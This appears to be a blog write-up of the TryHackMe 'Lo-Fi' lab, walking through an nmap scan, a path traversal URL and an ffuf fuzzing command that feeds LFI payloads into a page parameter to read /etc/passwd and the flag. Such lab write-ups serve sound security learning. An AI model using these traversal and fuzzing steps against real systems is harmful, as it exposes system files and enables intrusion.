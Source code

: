 ```yaml
---
title: TryHackMe - Lo-Fi
author: rene
date: 2025-02-14 20:13:44 +0100
description: A basic guide to exploiting 🗂️ Local File Inclusion and Path Traversal vulnerabilities in this challenge #
categories: [TryHackMe]
tags: [web, local file inclusion, path traversal]     # TAG names should always be lowercase
render_with_liquid: false
image:
    path: /images/tryhackme_lofi/room_image.png
---
```

### Intro

This should be simple LFI / Path Traversal vulnerability practice challenge.

[![Tryhackme Room Link](/images/tryhackme_lofi/room_card.png){: width="300" height="300" .shadow}](https://tryhackme.com/room/lofi){: .center }

### Nmap

Let's start with nmap scan

```
nmap -T4 -n -sC -sV -Pn -p- 10.10.72.5
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 40:ed:13:25:88:c7:cc:8b:86:8f:8b:0d:74:04:07:c7 (RSA)
|   256 c4:90:3d:98:c3:1d:87:c2:ca:15:f7:6f:10:f1:19:5f (ECDSA)
|_  256 18:ff:a7:d6:2d:bc:5c:ae:e2:bc:54:3f:20:c6:1a:81 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`80/tcp` port open, let's visit the website

### Path Traversal

Let's start by Path Traversal
```
http://10.10.72.5/?page=/../../../flag.txt
```

No Luck, but we know the site is vulnerable

![Hacker Message](/images/tryhackme_lofi/attempt1.png){: width="600" height="450" .shadow}

Let's try this parameter against some wordlist using `ffuf`
```console
ffuf -w /usr/share/wordlists/LFI-Jhaddix.txt -u "http://10.10.72.5/?page=FUZZ" -fl 124
```

#### Breakdown:

- `-w /usr/share/wordlists/LFI-Jhaddix.txt` → Uses a wordlist containing common LFI payloads.
- `-u "http://10.10.72.5/?page=FUZZ"` → Replaces `FUZZ` in the URL with each word from the wordlist.
- `-fl 124` → Filters out responses with **124 lines**, ignoring them to focus on different results.

We've got some hits

![ffuf Output](/images/tryhackme_lofi/ffuf.png){: width="600" height="450" .shadow}

Let's try a few of the simplest ones using /etc/passwd file

Success

![Traversal Path](/images/tryhackme_lofi/traversal.png){: width="600" height="450" .shadow}

## Flag

Now let's try it using flag.txt file

![Flag](/images/tryhackme_lofi/flag.png){: width="600" height="450" .shadow}











---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
</style>